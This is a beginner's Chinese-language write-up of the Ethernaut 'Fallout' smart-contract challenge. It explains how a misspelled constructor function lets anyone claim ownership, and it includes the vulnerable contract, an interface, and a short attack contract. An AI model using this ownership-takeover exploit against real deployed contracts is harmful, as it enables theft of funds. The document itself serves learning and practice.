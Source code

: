 # 2-Fallout

# 问题描述

Claim ownership of the contract below to complete this level.

Things that might help

- Solidity Remix IDE

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

# 解题思路

这道题目其实非常的简单，`Fal1out`函数拼写错误变成了一个public的function，并且能够让call这个`owner=msg.sender`

1. 直接在console调用这个函数即可，然后就可以完成任务
   
    ![image](images/02-image.png)
    
2. 掌握一下写代码的思路，直接写`interface`即可，然后部署之后直接用Remix的`At Address`对其进行互动，和在console里面输入上面方法是一样的
   
    ```solidity
    // SPDX-License-Identifier: MIT
    
    pragma solidity ^0.8.0;
    
    interface Ifallout {
        function Fal1out() external payable;
    }
    ```
    

---

# 小白的思考

这道题目虽然很简单，但是其实花了蛮多的时间的。主要是一边做在一遍思考，理解之后豁然开朗，并且搞懂了很多很基础的东西。记录一下笔记。

## Constructor

这题从思路上来讲很简单，刚开始不明白为什么要设置这样的题目，以及为什么`Fal1out` 是个拼写错误以及上面有constructor的注释。后来才发现要因为我是从0.8开始学的，这涉及到一些历史原因。

> 在 Solidity 0.4.22 之前，构造函数的定义方式是使用与合约同名的函数名（即构造函数的名称必须与合约的名称一致）。然而，从 Solidity 0.4.22 开始，引入了 constructor 关键字，构造函数应使用 constructor 定义，而不是与合约同名的函数。
> 

> 函数名 Fal1out 看起来像是构造函数，但由于拼写错误（“l”被替换为“1”），它实际上只是一个普通的公共函数，而不是构造函数。这样的话，任何人都可以调用这个函数，而不是仅仅在合约部署时被调用。
> 

## 和合约沟通的方式

- 从第一种解法了解如何从console直接通过abi互动
- 第二种方法了解了如何通过remix部署interface，然后直接通过`at address`来调用实例中的函数

在 Solidity 中，当你创建一个接口时，只需要定义你实际需要调用的函数。接口的目的是定义与目标合约的交互方式，所以只要包含你计划调用的那些函数就可以了，其他函数可以忽略。

**具体原因：**

1. **函数选择**：每个函数都有一个唯一的函数选择器（msg.sig），它是函数签名（函数名和参数类型）的前四个字节。因此，只要你在接口中定义了与目标合约中相同签名的函数，调用时就会匹配并调用目标合约中的对应函数。
2. **接口的最小化**：如果你只需要调用一个或几个函数，那么将它们写入接口就足够了。这不仅减少了代码的复杂性，还提高了代码的可读性和维护性。

## 关于有payable修饰词的函数的误解

1. 之前以为在调用含有payable修饰词的函数时一定要发送一点ether，但是其实不需要，并不是强制性的
2. 在写攻击函数的时候，constructor上面很自然的带了payable。但是如果在部署合约的时候不给一些初始的ether，其实没有必要。[熟悉一下](https://www.notion.so/payable-61ecc48c54dc4dcea5bf5d1f4d01e2bc?pvs=21)

## 关于攻击函数

因为是做完第10个挑战回来再写代码的，刚开始写了下面这么个代码。

感觉上是可行的，但是实际上就是过不了关。

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface Ifallout {
    function Fal1out() external payable;
}

contract AttackFallout {
    Ifallout public victim;

    constructor(address _victimAddress) {
        victim = Ifallout(_victimAddress);
    } 

    function attack() public {
        // 调用 victim 合约中的 Fal1out 函数
        victim.Fal1out();
    }
}
```

后来仔细想了想，才明白自己的问题出在哪里。

我现部署了上面这个攻击合约，然后通过共计合约去调用`Fal1out`函数，这样导致owner变成了我的共计合约，而不是我，所以无法过关。

但是从攻击的角度来讲，这样也不是不行。再接再厉吧，之前都没有好好思考过这个问题。

```solidity
一个小破题引发了如此多的思考，但是起码思路是越来越清晰的。
```